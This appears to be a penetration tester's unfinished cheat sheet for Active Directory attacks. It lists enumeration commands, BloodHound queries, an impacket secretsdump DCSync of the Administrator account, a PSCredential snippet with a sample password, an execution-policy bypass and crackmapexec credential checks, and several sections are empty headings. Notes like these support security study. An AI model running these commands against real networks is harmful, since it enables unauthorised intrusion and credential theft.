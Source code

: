 # Enumeration

## Some tips:
In order to execute some powershell scripts:
```
powershell -ep bypass
```

About users (script for getting users)

## Manual

Windapsearch form anonymous binds:
```
./windapsearch.py -d domain.com --dc-ip $rhost -U
```

### Enumerate Users
```
impacket-GetADUsers domain.com -dc-ip $rhost -debug
```

[Username anarchy - Tool for generating usernames when pentesting.](https://github.com/urbanadventurer/username-anarchy)

If you have only users, you should try **AS-REP Roasting**.

Enumerate Local Accounts on the machine:
```
net user /domain
```

Checking admin account:
```
net user admin /domain
```

Enumerate roups:
```
net group /domain
```

Get information about Sales Department
```
net group "Sales Department" /domain
```

### Operating System

### Permissions and Logged on Users

### Enumeration Through Service Principal Names

### Enumerating Object Permissions

### Enumerating Domain Shares

## Automatic

### BloodHound

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

#### Raw Queries

Return Computers:
```
MATCH (m:Computer) RETURN m
```

Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking

Reference: [Wikipedia](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)
![](img/Kerberos_protocol.png)

## Password Attacks

## AS-REP Roasting

## Kerberoasting

## Silver Tickets

## Domain Controller Synchronization

With impacket:
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

with mimikatz:


# Lateral Movement

How to create a PSCredential:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```
## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

impacket-psexec
## Pass the Hash

## Overpass the Hash

## Pass the Ticket

## DCOM

# Persistance

## Golden Ticket

## Shadow Ticket
